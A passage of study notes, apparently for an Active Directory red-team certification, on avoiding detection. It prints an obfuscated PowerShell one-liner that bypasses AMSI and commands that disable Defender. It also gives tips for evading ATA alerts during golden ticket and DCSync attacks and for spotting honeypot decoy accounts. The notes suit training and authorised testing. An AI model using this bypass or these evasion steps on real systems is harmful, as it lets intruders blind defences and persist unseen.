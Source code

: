 default)</li></ul><figure id="4a7e1db8-6f50-4368-9ec0-357bfbf50e21" class="image"><a href="../../images/CRTP%20Notes%207c65562269c14f0ba54f9df255f72aa4/Untitled%204.png"><img style="width:1007px" src="../../images/CRTP%20Notes%207c65562269c14f0ba54f9df255f72aa4/Untitled%204.png"/></a></figure><ul id="cc78b68e-17d1-475d-bc67-8d2d404bbbed" class="bulleted-list"><li style="list-style-type:disc">can be found with <code>Get-ADForest</code></li></ul><h1 id="2df8f633-b26d-4447-9588-d35c7d41f5c9" class="">Avoiding Detection</h1><p id="5bc27881-9230-4587-a8f5-0ab71f2294fb" class="">One-liner to bypass AMSI <code>This script contains malicious content</code> block</p><pre id="3bf25c2b-b64b-45af-803c-0091cf25370b" class="code"><code>S`eT-It`em ( &#x27;V&#x27;+&#x27;aR&#x27; + &#x27;IA&#x27; + (&#x27;blE:1&#x27;+&#x27;q2&#x27;) + (&#x27;uZ&#x27;+&#x27;x&#x27;) ) ( [TYpE]( &quot;{1}{0}&quot;-F&#x27;F&#x27;,&#x27;rE&#x27; ) ) ; ( Get-varI`A`BLE ( (&#x27;1Q&#x27;+&#x27;2U&#x27;) +&#x27;zX&#x27; ) -VaL ).&quot;A`ss`Embly&quot;.&quot;GET`TY`Pe&quot;(( &quot;{6}{3}{1}{4}{2}{0}{5}&quot; -f(&#x27;Uti&#x27;+&#x27;l&#x27;),&#x27;A&#x27;,(&#x27;Am&#x27;+&#x27;si&#x27;),(&#x27;.Man&#x27;+&#x27;age&#x27;+&#x27;men&#x27;+&#x27;t.&#x27;),(&#x27;u&#x27;+&#x27;to&#x27;+&#x27;mation.&#x27;),&#x27;s&#x27;,(&#x27;Syst&#x27;+&#x27;em&#x27;) ) ).&quot;g`etf`iElD&quot;( ( &quot;{0}{2}{1}&quot; -f(&#x27;a&#x27;+&#x27;msi&#x27;),&#x27;d&#x27;,(&#x27;I&#x27;+&#x27;nitF&#x27;+&#x27;aile&#x27;) ),( &quot;{2}{4}{0}{1}{3}&quot; -f (&#x27;S&#x27;+&#x27;tat&#x27;),&#x27;i&#x27;,(&#x27;Non&#x27;+&#x27;Publ&#x27;+&#x27;i&#x27;),&#x27;c&#x27;,&#x27;c,&#x27; )).&quot;sE`T`VaLUE&quot;( ${n`ULl},${t`RuE} )</code></pre><ul id="707a0994-25bb-4efb-abca-358c0ed4b25e" class="bulleted-list"><li style="list-style-type:disc">with local admin access, run <code>Set-MpPreference -DisableRealtimeMonitoring $true</code> to temporarily disable Defender<ul id="7a4dcca9-911f-4edb-84be-5a280015e045" class="bulleted-list"><li style="list-style-type:circle">note that it is more silent (and preferred) to use <code>Set-MpPreference -DisableIOAVProtection $true</code> as this will specifically only target AV</li></ul></li></ul><ul id="8e13a00e-0c01-4534-92a1-0815f98df4d4" class="bulleted-list"><li style="list-style-type:disc">avoid communicating with the DC as much as possible</li></ul><h2 id="4d889576-0c15-4327-8695-555889e4f8bf" class="">ATA</h2><ul id="702ebfa1-50b9-4ab9-8b64-819cc81eb293" class="bulleted-list"><li style="list-style-type:disc">avoid running <code>Invoke-UserHunter</code> against DCs to prevent logs (e.g. Reconaissance using SMB session enumeration) <ul id="ba0fc0b3-e35e-489e-b1b2-40f0dae74760" class="bulleted-list"><li style="list-style-type:circle">skip running against DCs with <code>-ComputerFile computers.txt</code> where DCs are not in the <code>computers.txt</code> file</li></ul></li></ul><ul id="76e2d5dd-fd2c-4970-9093-be952c933bec" class="bulleted-list"><li style="list-style-type:disc">for golden tickets and overpass-the-hash, ensure to also add <code>/aes256:&lt;AES256_key&gt;</code> and if possible also <code>/aes128:&lt;AES128_key&gt;</code> to avoid ATA’s “Encryption downgrade activity” finding </li></ul><ul id="cb58c73b-ea87-42d0-b0f1-e9f00da50be0" class="bulleted-list"><li style="list-style-type:disc">DCSync attacks trigger ATA’s “Malicious replication of Directory Services” finding (only possible to bypass if run from a domain controller or child domain controller)</li></ul><ul id="d2ae062a-55f3-469e-9eba-41c0efe5c35d" class="bulleted-list"><li style="list-style-type:disc">avoid interacting with DAs as much as possible</li></ul><ul id="4a998061-b4bc-424b-84a0-cced3f9fb3d5" class="bulleted-list"><li style="list-style-type:disc">NEVER use automated dom ain takeover tools (extremely noisy)</li></ul><h2 id="3f2b1312-71e0-4480-876b-cf8c05468149" class="">Honeypots</h2><ul id="401d2521-7ca3-4eb2-a374-a3102ca93eb7" class="bulleted-list"><li style="list-style-type:disc">by checking when a user’s password was last set, you can differentiate actual users from honeypot (decoy) users</li></ul><ul id="d94df1b7-b869-4a54-8490-124f423d8401" class="bulleted-list"><li style="list-style-type:disc">compare potential decoy object with known actual object <ul id="dc263a7c-4785-4e7c-b0e1-3885c5c08c21" class="bulleted-list"><li style="list-style-type:circle">compare SID of other users with built-in users (e.g. built-in administrator [RID 500])</li></ul></li></ul><ul id="6376d409-4a28-418e-b182-0d54252a657b" class="bulleted-list"><li style="list-style-type:disc">you can find the legitimate DC with the <code>logonserver</code> environment variable</li></ul><ul id="883b4934-f993-455c-a591-8a69def97464" class="bulleted-list"><li style="list-style-type:disc">objects created by some deception solutions may be filtered out when using WMI for retrieving information</li></ul><ul id="ca21b477-9697-4534-9498-2d28f8e2782c" class="bulleted-list"><li style="list-style-type:disc">run <code>Invoke-HoneypotBuster -OpSec</code> to find potential honeypots<ul id="9edf0b0e-aa6f-46f9-bee4-2352ed2d71af" class="bulleted-list"><li style="list-style-type:circle">it’s better to look for decoys manually, but this is a good tool for finding obvious honeypots (if <code>logoncount</code> ≥ 6, the user does not show up) </li></ul></li></ul><p id="a20798eb-48b5-48e6-84d7-9a59c5a5885e" class=""><strong>Signs Object is a Decoy</strong></p><ol type="1" id="ed776047-b215-47ea-bcbf-0e8d7f74dd6e" class="numbered-list" start="1"><li>User has very enticing name</li></ol><ol type="1" id="7b2a0e27-9516-470b-8397-b35b65abda06" class="numbered-list" start="2"><li>User’s <code>pwdlastset</code> was last set a long time ago</li></ol><ol type="1" id="c42f1c62-f15c-411c-b7cc-9092fc33d304" class="numbered-list" start="3"><li>User’s <code>badpwdcount</code> is